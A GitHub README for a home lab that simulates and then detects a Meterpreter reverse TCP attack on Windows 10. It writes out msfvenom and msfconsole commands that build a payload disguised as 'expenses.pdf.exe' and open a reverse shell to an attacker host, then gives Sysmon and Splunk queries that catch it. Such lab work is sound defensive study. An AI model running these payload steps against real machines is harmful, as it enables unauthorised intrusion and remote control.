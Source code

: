 # Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview
This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used
- Kali Linux (attacker machine)
- Windows 10 (victim machine)
- Splunk
- Sysmon

## Attack Simulation
Payload: `windows/meterpreter/reverse_tcp` \
Tools used: `msfvenom`, `msfconsole`

Steps taken:
1. Find an open port using nmap -A -Pn <Victim IP address>
2. Generate the payload using:
`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
 -f exe -o expenses.pdf.exe`
3. Deliver the payload to the victim machine
4. Establish a Meterpreter session using: 
   `use exploit/multi/handler set payload windows/meterpreter/reverse_tcp set LHOST <Attacker_IP> set LPORT <Port> run`

## Detection
Using EventCode=3 detected a unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`. \
Looking at more log evidence using the query of: \
 `index=sysmon EventCode=3 <attacker IP address>` \
A log entry is found where: \
`DestinationIp: <attacker IP address>`\
`sourceIp: <victim IP address>`\
`Image: C:\Users\<User>\Downloads\expenses.pdf.exe`\
Thus indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel\
Using the query of : `index=sysmon EventCode=1 expenses.pdf.exe a Log indicating cmd.exe was ccreated from the parent process of `expenses.pdf.exe`\
using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user
